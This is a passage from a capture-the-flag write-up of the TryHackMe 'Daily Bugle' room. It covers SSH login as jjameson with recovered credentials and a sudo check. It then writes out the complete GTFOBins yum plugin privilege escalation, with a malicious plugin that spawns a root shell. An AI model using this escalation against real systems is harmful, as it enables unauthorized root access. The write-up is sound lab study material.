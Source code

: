 I wonder if this is jjamison's password. 

## SSH Login

Logging in with SSH using these credentials was successful. 

```
(dspo6㉿kali)[~]$ ssh jjameson@10.10.151.238
The authenticity of host '10.10.151.238 (10.10.151.238)' can't be established.
ECDSA key fingerprint is SHA256:apAdD+3yApa9Kmt7Xum5WFyVFUHZm/dCR/uJyuuCi5g.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.151.238' (ECDSA) to the list of known hosts.
jjameson@10.10.151.238's password: 
Last login: Mon Dec 16 05:14:55 2019 from netwars
[jjameson@dailybugle ~]$ whoami
jjameson
[jjameson@dailybugle ~]$ 
```

I checked to see if this user was allowed any sudo commands and found that the user was able to run commands on the folder `/usr/bin/yum`

```
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
[jjameson@dailybugle ~]$ 
```


## Privilege Escalation

The hint on the TryHackMe page mentioned GTFOBins which led me to https://gtfobins.github.io/gtfobins/yum/

Typing in each of the commands one by one resulted in getting root access and capturing the flag. 

```
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
```